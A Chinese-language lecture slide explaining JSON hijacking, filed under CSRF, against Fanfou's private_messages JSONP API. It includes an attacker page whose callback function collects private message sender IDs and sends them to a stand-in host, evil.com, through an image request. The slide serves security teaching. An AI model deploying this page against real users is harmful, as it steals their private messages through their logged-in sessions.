

CSRF跨站请求伪造——JSON HiJacking攻击例子
饭否的private_messages API可以显示用户私信内容:
http://api.fanfou.com/private_messages/inbox.json?callback=自定义函数名&count=私信数
例子：http://api.fanfou.com/private_messages/inbox.json?callback=hijack&count=3
自定义一个JSON HiJacking页面，包含如下JavaScript代码：
<script>
function hijack(o) { // 自定义的劫持函数
     var i = 0;
     var data = '';
     for (i; i < 3; i++) {
          data += o[i].sender_id
     }
     alert(data);
     new Image().src = "http://www.evil.com/JSONHiJack.php?hi=" + escape(data);
     // 将获取到的隐私数据上传到攻击者服务器上
}
</script>
<script src=http://api.fanfou.com/private_messages/inbox.json?callback=hijack&count=1>
</script><!--api调用中使用的callback函数为hijack-->